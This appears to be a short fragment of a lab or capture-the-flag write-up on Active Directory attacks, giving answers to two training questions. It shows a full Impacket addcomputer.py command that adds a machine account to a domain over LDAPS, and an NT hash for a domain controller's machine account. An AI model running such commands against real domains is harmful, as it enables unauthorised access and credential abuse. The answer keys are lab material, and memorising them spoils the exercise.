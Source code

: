 ```
[*] Cleaning up... 



```


What is the syntax of the command to use Impacket's addcomputer.py to add a new computer to the lunar.eruca.com domain using the AD credentials of test:pass, with the LDAPS method, with the hostname of thmtest, and the password of computer1?  

	addcomputer.py 'domain/username:password' -method <method> -computer-name '<computer name>' -computer-pass '<computer pass>'

	*addcomputer.py 'lunar.eruca.com/test:pass' -method LDAPS -computer-name 'thmtest' -computer-pass 'computer1'*

What is the NT hash of the LUNDC machine account?

*14fc9b5814def64289bb694f6659c733*


